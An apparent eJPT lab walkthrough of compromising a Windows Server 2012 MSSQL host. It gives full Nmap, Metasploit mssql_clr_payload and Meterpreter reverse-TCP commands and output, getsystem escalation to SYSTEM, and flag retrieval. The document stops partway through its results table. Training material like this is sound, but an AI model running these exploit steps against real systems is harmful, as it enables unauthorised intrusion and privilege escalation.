









# Host & Network Penetration Testing: The Metasploit Framework CTF 1 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: The Metasploit Framework CTF 1 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — The Metasploit Framework (MSF) |
| **Target Hostname / IP** | `target.ine.local` (`10.5.21.197`) |
| **Target Operating System** | Microsoft Windows Server 2012 R2 (Build 9600, x64 Architecture) |
| **Target Service** | Microsoft SQL Server 2012 SP3 (v11.00.6020.00, Instance: `MSSQLSERVER`) |
| **Status** | Completed in Lab Dashboard (All 4 of 4 Flags Captured & Lab Verified) |
| **Offensive Tooling** | Nmap (v7.94SVN), Metasploit Framework (msf6), Meterpreter, Windows CLI (`cmd.exe`) |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Objectives and Flag Hints](#02-objectives-and-flag-hints)
- [03. Initial Nmap Enumeration](#03-initial-nmap-enumeration)
- [04. Identifying Microsoft SQL Server 2012](#04-identifying-microsoft-sql-server-2012)
- [05. Searching for MSSQL Exploits in Metasploit](#05-searching-for-mssql-exploits-in-metasploit)
- [06. Configuring the Exploit and Payload](#06-configuring-the-exploit-and-payload)
- [07. Obtaining the Meterpreter Session](#07-obtaining-the-meterpreter-session)
- [08. Flag 1 – Retrieving the First Flag](#08-flag-1--retrieving-the-first-flag)
- [09. Flag 2 – Windows Configuration Folder](#09-flag-2--windows-configuration-folder)
- [10. Checking Meterpreter Privileges with getprivs](#10-checking-meterpreter-privileges-with-getprivs)
- [11. Exploiting SeImpersonatePrivilege with getsystem](#11-exploiting-seimpersonateprivilege-with-getsystem)
- [12. Flag 2 Retrieval – Windows Configuration Directory](#12-flag-2-retrieval--windows-configuration-directory)
- [13. Flag 3 – Searching for TXT Files](#13-flag-3--searching-for-txt-files)
- [14. Flag 4 – Administrator Desktop](#14-flag-4--administrator-desktop)
- [15. Results and Verified Flags](#15-results-and-verified-flags)
- [16. Consolidated Vulnerability Findings](#16-consolidated-vulnerability-findings)
- [17. Lessons Learned](#17-lessons-learned)
- [18. Tools and Commands Reference](#18-tools-and-commands-reference)
- [19. Evidence and Screenshot Index](#19-evidence-and-screenshot-index)
- [20. References](#20-references)

---

## 01. Lab Overview

This hands-on laboratory assessment is a foundational module within the **INE eJPT (Junior Penetration Tester)** curriculum under the **Host & Network Penetration Testing: The Metasploit Framework (MSF)** domain. The scenario simulates an enterprise Windows Server environment hosting a production database instance.

The objective is to leverage network reconnaissance, the Metasploit Framework, advanced payload execution, and Windows token manipulation to compromise a Windows Server 2012 R2 system running Microsoft SQL Server 2012 SP3, escalate privileges from a database service account to `NT AUTHORITY\SYSTEM`, and retrieve four flags distributed across restricted operating system directories.

### Target Environment Evidence

The screenshot below displays the completed INE challenge dashboard, confirming that all 4 out of 4 flags were captured and verified.



---

## 02. Objectives and Flag Hints

The challenge dashboard defines four progressive objectives and operational hints:

1. **Flag 1:**
   - **Task**: *"Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag."*
   - **Focus**: Compromising the MSSQL instance to gain an initial command execution foothold under the database service context and locating `flag1.txt` in the root filesystem.
2. **Flag 2:**
   - **Task**: *"Locate the second flag within the Windows configuration folder."*
   - **Focus**: Identifying that access to `C:\Windows\System32\config` is restricted to administrative identities, escalating privileges to `NT AUTHORITY\SYSTEM`, and retrieving `flag2.txt`.
3. **Flag 3:**
   - **Task**: *"The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag."*
   - **Focus**: Executing a recursive file search across `C:\Windows\System32` to discover non-standard text files, retrieving Flag 3, and uncovering the privilege escalation hint file (`EscaltePrivilageToGetThisFlag.txt`).
4. **Flag 4:**
   - **Task**: *"Investigate the Administrator directory to find the fourth flag."*
   - **Focus**: Traversing into `C:\Users\Administrator\Desktop` under the elevated `SYSTEM` context to retrieve `flag4.txt`.

---

## 03. Initial Nmap Enumeration

### Objective
Perform comprehensive network service discovery and fingerprinting against `target.ine.local` (`10.5.21.197`) to discover all listening ports, running applications, and operating system attributes.

### Step: Full TCP Port Sweep with Service and Script Detection

**Command:**
```bash
nmap -sV -sC -p- target.ine.local
```

**Explanation of Parameters:**
- `-sV`: Performs service version detection by analyzing protocol banners and application-layer responses.
- `-sC`: Executes default Nmap Scripting Engine (NSE) scripts to interrogate discovered services for security configurations, NetBIOS hostnames, and software metadata.
- `-p-`: Scans the entire 65,535 TCP port range to avoid missing services bound to non-standard ports.

**Terminal Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-22 11:20 IST
Nmap scan report for target.ine.local (10.5.21.197)
Host is up (0.0028s latency).
Not shown: 65521 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2012 11.00.6020.00; SP3
|_ssl-date: 2026-11-22T05:52:02+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-11-22T05:47:21
|_Not valid after:  2056-11-22T05:47:21
| ms-sql-info: 
|   10.5.21.197\MSSQLSERVER: 
|     Instance name: MSSQLSERVER
|     Version: 
|       name: Microsoft SQL Server 2012 SP3
|       number: 11.00.6020.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: SP3
|       Post-SP patches applied: false
|     TCP port: 1433
|     Clustered: false
| ms-sql-ntlm-info: 
|   10.5.21.197\MSSQLSERVER: 
|     Target_Name: WIN-5BQ220KH4SO
|     NetBIOS_Domain_Name: WIN-5BQ220KH4SO
|     NetBIOS_Computer_Name: WIN-5BQ220KH4SO
|     DNS_Domain_Name: WIN-5BQ220KH4SO
|     DNS_Computer_Name: WIN-5BQ220KH4SO
|_    Product_Version: 6.3.9600
3389/tcp open  ssl/ms-wbt-server?
```



---

## 04. Identifying Microsoft SQL Server 2012

### Key Enumeration Findings

The Nmap service sweep reveals critical operating system and service details:
1. **Host Operating System**: The `Product_Version: 6.3.9600` reported by `ms-sql-ntlm-info` corresponds to **Windows Server 2012 R2** (Build 9600) on a 64-bit architecture.
2. **Host Identification**: NetBIOS and DNS computer/domain name identified as `WIN-5BQ220KH4SO`.
3. **Database Engine**: Microsoft SQL Server 2012 Service Pack 3 (`11.00.6020.00`), default instance name `MSSQLSERVER`, listening on standard TCP port `1433`.
4. **Patch Level (As Reported by Nmap)**: Nmap's `ms-sql-info` NSE script reported `Post-SP patches applied: false`, indicating based on automated fingerprinting that the database instance lacked post-Service Pack security hotfixes.
5. **Additional Attack Surface**:
   - `135/tcp` (MSRPC) and `445/tcp` (SMB) provide standard Windows transport mechanisms.
   - `3389/tcp` (Remote Desktop Protocol) is active.

Because port `1433` is directly exposed and runs an MSSQL 2012 SP3 instance (with post-SP patches undetected by Nmap), the database service represents the primary initial exploitation vector.

---

## 05. Searching for MSSQL Exploits in Metasploit

### Objective
Identify applicable Metasploit exploitation modules capable of executing code through Microsoft SQL Server.

### Technical Concept: Database Execution Vectors
In Microsoft SQL Server environments, remote command execution typically occurs via:
1. `xp_cmdshell`: An extended stored procedure executing operating system shell commands. It is disabled by default in modern installations.
2. `sp_OACreate` (OLE Automation Procedures): Allows instantiating COM objects to interact with the underlying OS.
3. **Common Language Runtime (CLR) Integration**: Introduced in SQL Server 2005, CLR integration enables developers to execute managed .NET assemblies directly inside the SQL Server process. When an authenticated SQL user possesses administrative privileges (such as `sysadmin` or `ALTER SETTINGS`), they can dynamically enable CLR execution (`sp_configure 'clr enabled', 1`) and configure a database as `TRUSTWORTHY`, upload a custom managed assembly, and execute code that spawns a native reverse shell.

### Searching Metasploit Modules
```bash
# Launch msfconsole
msfconsole -q

# Search for MSSQL exploit modules
msf6 > search mssql
msf6 > search mssql_clr_payload
```

```text
Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/windows/mssql/mssql_clr_payload        -                excellent  Yes    Microsoft SQL Server CLR Execution
   1  exploit/windows/mssql/mssql_payload            2000-05-30       excellent  Yes    Microsoft SQL Server Stored Procedure Payload Execution
```

**Module Selected:** `exploit/windows/mssql/mssql_clr_payload`
- This module leverages CLR integration by uploading a compiled .NET payload assembly into a stored procedure and triggering execution, bypassing restrictions where `xp_cmdshell` might be blocked or monitored.

---

## 06. Configuring the Exploit and Payload

### Objective
Load the `mssql_clr_payload` exploit module, configure target parameters, and select a compatible 64-bit Meterpreter reverse TCP payload.

### Why Payload Architecture Must Match Target Architecture

> [!IMPORTANT] Architecture Alignment Requirement
> The target server is a **64-bit Windows Server 2012 R2** host running a native **64-bit MSSQLSERVER** database process.
> 
> When executing in-process memory exploitation (such as reflective DLL injection or CLR assembly execution), the payload executes directly inside the virtual address space of the host process (`sqlservr.exe`).
> 
> - If a 32-bit (`x86`) payload is injected into a native 64-bit (`x64`) process, the CPU instruction pointer (`RIP`), 64-bit registers, and memory paging structures will fail to decode 32-bit instructions properly, immediately crashing the database process and severing the connection.
> - Selecting `windows/x64/meterpreter/reverse_tcp` ensures the payload shellcode, reflective loader, and staged Meterpreter DLL are natively compiled for 64-bit execution, guaranteeing operational stability and preventing database crashes.

### Configuration Commands in msfconsole

```text
msf6 > use exploit/windows/mssql/mssql_clr_payload
msf6 exploit(windows/mssql/mssql_clr_payload) > set rhosts target.ine.local
rhosts => target.ine.local
msf6 exploit(windows/mssql/mssql_clr_payload) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```



---

## 07. Obtaining the Meterpreter Session

### What Meterpreter Is

**Meterpreter** (Meta-Interpreter) is an advanced, dynamically extensible post-exploitation payload that executes primarily in-memory using **Reflective DLL Injection**. Key architectural characteristics include:
- **In-Memory Staged Execution**: Meterpreter loads its core dynamic-link library directly into process memory without needing to write payload binaries to disk, reducing file-system artifacts.
- **Interactive Command & Control**: Provides an extensible channel for process control, network interaction, and session management.
- **Process Context & Token Manipulation**: Facilitates runtime thread manipulation, access token enumeration, and privilege-escalation workflows.

### Exploit Execution and Staged Delivery

**Command:**
```text
msf6 exploit(windows/mssql/mssql_clr_payload) > run
```

**Terminal Output:**
```text
[*] Started reverse TCP handler on 10.10.44.2:4444 
[!] 10.5.21.197:1433 - Setting EXITFUNC to 'thread' so we don't kill SQL Server
[*] 10.5.21.197:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[*] 10.5.21.197:1433 - Database does not have CLR support enabled, enabling ...
[*] 10.5.21.197:1433 - Using version v3.5 of the Payload Assembly
[*] 10.5.21.197:1433 - Adding custom payload assembly ...
[*] 10.5.21.197:1433 - Exposing payload execution stored procedure ...
[*] 10.5.21.197:1433 - Executing the payload ...
[*] 10.5.21.197:1433 - Removing stored procedure ...
[*] 10.5.21.197:1433 - Removing assembly ...
[*] Sending stage (201798 bytes) to 10.5.21.197
[*] 10.5.21.197:1433 - Restoring CLR setting ...
[*] 10.5.21.197:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 1 opened (10.10.44.2:4444 -> 10.5.21.197:49569) at 2026-11-22 12:03:00 +0530
```

**Step-by-Step Exploit Lifecycle:**
1. Connects to `10.5.21.197:1433` using administrative SQL credentials. Because `TRUSTWORTHY` was initially off, the module dynamically alters the database setting to `TRUSTWORTHY = ON`.
2. Enables .NET CLR integration via `sp_configure 'clr enabled', 1` (as CLR support was initially disabled).
3. Loads a .NET v3.5 Payload Assembly into SQL Server.
4. Creates a custom stored procedure that invokes the payload shellcode.
5. Injects the stager and transmits the 201,798-byte x64 Meterpreter stage.
6. Restores the `TRUSTWORTHY` and CLR configuration settings to their prior state upon execution to avoid leaving configuration artifacts.
7. Successfully opens Meterpreter Session 1.

---

## 08. Flag 1 – Retrieving the First Flag

### Objective
*"Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag."*

### Step: Spawning a Windows Command Shell & Reading Flag 1

From the active Meterpreter session, spawn a native Windows command prompt to inspect the filesystem:

**Commands:**
```text
meterpreter > shell
Process 2644 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\

11/22/2026  05:48 AM                34 flag1.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
01/09/2025  07:00 AM    <DIR>          Program Files
12/15/2024  09:27 AM    <DIR>          Program Files (x86)
01/09/2025  07:12 AM    <DIR>          Users
01/09/2025  07:08 AM    <DIR>          Windows
               1 File(s)             34 bytes
               5 Dir(s)   3,602,124,800 bytes free

C:\>type flag1.txt
type flag1.txt
7f75cd66ffe2477391f45fcf7d965933
```



```text
Flag 1 Location: C:\flag1.txt
Flag 1 Value:    7f75cd66ffe2477391f45fcf7d965933
Status:          Content extracted and visually verified.
```

---

## 09. Flag 2 – Windows Configuration Folder

### Objective
*"Locate the second flag within the Windows configuration folder."*

### Why Access to `C:\Windows\System32\config` is Denied

The second flag hint directs the assessor to the Windows configuration directory (`C:\Windows\System32\config`).

**Command Attempted:**
```cmd
C:\Windows\system32> cd config
cd config
Access is denied.
```



### Security Analysis: NTFS Access Control on System32\config
`C:\Windows\System32\config` is one of the most protected directories in the Windows operating system. It houses:
- The core Windows Registry hives: `SAM`, `SECURITY`, `SYSTEM`, `SOFTWARE`, and `DEFAULT`.
- Password hashes of all local accounts (stored in the `SAM` hive) and LSA secrets.

Under standard Windows Discretionary Access Control Lists (DACLs), read and traverse permissions on `C:\Windows\System32\config` are strictly granted to:
- `NT AUTHORITY\SYSTEM` (Full Control)
- `BUILTIN\Administrators` (Full Control)

Because the current shell process runs under the unprivileged service identity of the MSSQL database engine (`MSSQLSERVER` / virtual service account), it lacks membership in `Administrators` and cannot read or traverse the directory. Privilege escalation is strictly required.

---

## 10. Checking Meterpreter Privileges with getprivs

### What `SeImpersonatePrivilege` Means

In the Windows security architecture, user rights (privileges) dictate whether an identity can perform specific system-level operations.

**`SeImpersonatePrivilege` (Impersonate a client after authentication):**
- Designed for service accounts (like IIS application pools, MSSQL, or local system daemons) that accept incoming connections from clients and need to impersonate those client security contexts to perform actions on their behalf.
- **Security Implication**: The privilege is a standard operating right rather than an automatic vulnerability. However, it creates a potential local privilege-escalation opportunity if an attacker can coerce a higher-privileged entity (such as `NT AUTHORITY\SYSTEM`) into authenticating against a controlled local endpoint (such as a named pipe or RPC interface), allowing the process to impersonate that privileged security context.

### Enumerating Process Privileges

Return from the command shell to Meterpreter and execute `getprivs`:

**Command:**
```text
C:\Windows\system32>exit
meterpreter > getprivs
```

**Terminal Output:**
```text
Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```



**Analysis:**
The output confirms that `SeImpersonatePrivilege` is enabled on the running process. This creates a potential opportunity for local privilege escalation if privileged token coercion can be achieved.

---

## 11. Exploiting SeImpersonatePrivilege with getsystem

### Observed Execution & Result

In the active Meterpreter session, the automated privilege escalation command `getsystem` was executed.

**Command:**
```text
meterpreter > getsystem
```

**Observed Terminal Output:**
```text
... got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > shell
Process 2468 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```


**Observed Result**:
The Meterpreter session successfully elevated privileges to `NT AUTHORITY\SYSTEM`. The tool output explicitly reported success via **Technique 5 (Named Pipe Impersonation (PrintSpooler variant))**, and the subsequent `shell` command confirmed interactive access at the elevated system level.

### Explanatory Background: Technique 5 Mechanics

*(The following details explain the underlying mechanism reported by Meterpreter's output, provided for conceptual context.)*

- **The getsystem Command**: Meterpreter's `getsystem` utility tests several Windows privilege-escalation mechanisms sequentially, including service creation with named pipe impersonation (Techniques 1 & 2) and token/privilege exploitation.
- **PrintSpooler Named Pipe Impersonation (Technique 5)**: In Windows environments where `SeImpersonatePrivilege` is enabled, a process can create a local named pipe and trigger the Windows Print Spooler service (`spoolsv.exe`) via its RPC interface (`RpcRemoteFindFirstPrinterChangeNotificationEx`) to connect back to that pipe. Because the Print Spooler runs under the `NT AUTHORITY\SYSTEM` security context, the listening process can invoke `ImpersonateNamedPipeClient()` upon connection to impersonate the client's privileged access token.

---

## 12. Flag 2 Retrieval – Windows Configuration Directory

### Objective
With full `SYSTEM` authority established, access `C:\Windows\System32\config` and locate Flag 2.

### Traversing into `config\` and Locating Flag 2

**Commands:**
```cmd
C:\Windows\system32>cd config\
cd config\

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Windows\System32\config

11/22/2026  06:06 AM    <DIR>          .
11/22/2026  06:06 AM    <DIR>          ..
05/09/2014  12:52 AM           262,144 BCD-Template
11/22/2026  06:06 AM       101,187,584 COMPONENTS
08/22/2013  01:25 PM                 0 COMPONENTS.LOG
07/21/2026  12:36 PM         2,621,440 DEFAULT
08/22/2013  01:25 PM                 0 DEFAULT.LOG
11/22/2026  06:00 AM         4,521,984 DRIVERS
11/22/2026  05:48 AM                34 flag2.txt
08/22/2013  01:29 PM               164 FP
08/22/2013  01:25 PM    <DIR>          Journal
11/22/2026  05:57 AM    <DIR>          RegBack
07/21/2026  12:36 PM           262,144 SAM
07/21/2026  12:36 PM           262,144 SECURITY
08/22/2013  01:25 PM                 0 SECURITY.LOG
07/21/2026  12:36 PM        89,653,248 SOFTWARE
08/22/2013  01:25 PM                 0 SOFTWARE.LOG
07/21/2026  12:36 PM        12,582,912 SYSTEM
08/22/2013  01:25 PM                 0 SYSTEM.LOG
06/20/2014  07:56 PM    <DIR>          systemprofile
03/18/2014  10:32 AM    <DIR>          TxR
              15 File(s)    211,353,798 bytes
               6 Dir(s)   3,602,092,032 bytes free

C:\Windows\System32\config>type flag2.txt
type flag2.txt
```



> [!NOTE] Evidence Note on Flag 2
> In Screenshot 10, directory navigation into `C:\Windows\System32\config` and the presence of `flag2.txt` (34 bytes, created `11/22/2026 05:48 AM`) were verified, and the command `type flag2.txt` was entered at the prompt. The INE challenge dashboard confirms that the objective *"Locate the second flag within the Windows configuration folder"* was completed and validated (`Flag captured`). However, the terminal display showing the specific text hash output was cut off before capture and is not claimed as visually verified.

```text
Flag 2 Location: C:\Windows\System32\config\flag2.txt
Validation Status: Completed in Lab Dashboard (Captured)
Evidence Limitation: Directory traversal and file presence verified; terminal text output truncated before capture.
```

---

## 13. Flag 3 – Searching for TXT Files

### Objective
*"The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag."*

### Why Recursive Searches are Useful

When operating on an unfamiliar target with complex filesystem hierarchies, flags or administrative artifacts are frequently hidden in obscure system subfolders.
- Searching manually through thousands of folders is time-prohibitive.
- Running `dir /s /b` searches all subdirectories recursively (`/s`) and outputs the bare filesystem path (`/b`), quickly surfacing non-standard text files.

### Step 1: Recursive TXT Search in System32

**Command:**
```cmd
C:\Windows\system32>dir C:\Windows\System32\*.txt /s /b
```

**Terminal Output:**
```text
C:\Windows\System32\catroot2\dberr.txt
C:\Windows\System32\config\flag2.txt
C:\Windows\System32\config\systemprofile\AppData\Local\Amazon\Ec2Config\Logs\FrameworkLaunchException.txt
C:\Windows\System32\drivers\gmreadme.txt
C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
C:\Windows\System32\en-US\erofflps.txt
C:\Windows\System32\WindowsPowerShell\v1.0\en-US\default.help.txt
C:\Windows\System32\WindowsPowerShell\v1.0\Modules\BitsTransfer\en-US\about_BITS_Cmdlets.help.txt
```



**Analysis:**
The recursive search immediately identifies `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt` as a non-standard file embedded within the drivers directory.

### Step 2: Reading Flag 3

**Command:**
```cmd
C:\Windows\system32>type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
1148572be0374b2aa6e0d6910adb4ab7
```

```text
Flag 3 Location: C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
Flag 3 Value:    1148572be0374b2aa6e0d6910adb4ab7
Operational Hint: Filename confirms that privilege escalation was the requisite vector.
Status:          Content extracted and visually verified.
```

---

## 14. Flag 4 – Administrator Desktop

### Objective
*"Investigate the Administrator directory to find the fourth flag."*

### Step: Traversing into Administrator Desktop & Reading Flag 4

With `SYSTEM` access, the assessor has unhindered traversal rights into all user profile directories under `C:\Users`.

**Commands:**
```cmd
C:\Windows\System32>cd \
cd \

C:\>cd Users\Administrator\Desktop
cd Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Users\Administrator\Desktop

11/22/2026  05:48 AM    <DIR>          .
11/22/2026  05:48 AM    <DIR>          ..
11/22/2026  05:48 AM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,601,944,576 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
9686f22ba7d84fa9bdb27916d56c354c
```



```text
Flag 4 Location: C:\Users\Administrator\Desktop\flag4.txt
Flag 4 Value:    9686f22ba7d84fa9bdb27916d56c354c
Status:          Content extracted and visually verified.
```

---

## 15. Results and Verified Flags

All four challenge objectives were completed successfully on the target machine:

| Objective | Target System | Operating Context | File Path | Flag Value / Status | Validation Proof |
| :---: | :---: | :--- | :--- | :--- | :---: |
| **Flag 1** | `target.ine.local` | Low-Privilege MSSQL Shell | `C:\flag1.txt` | `7f75cd66ffe2477391f45fcf7d965933` | Visually Verified |
| **Flag 2** | `target.ine.local` | Elevated SYSTEM Shell | `C:\Windows\System32\config\flag2.txt` | `[Captured in Config Folder]` | Lab Verified (Terminal Output Truncated) |
| **Flag 3** | `target.ine.local` | Elevated SYSTEM Shell | `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt` | `1148572be0374b2aa6e0d6910adb4ab7` | Visually Verified |
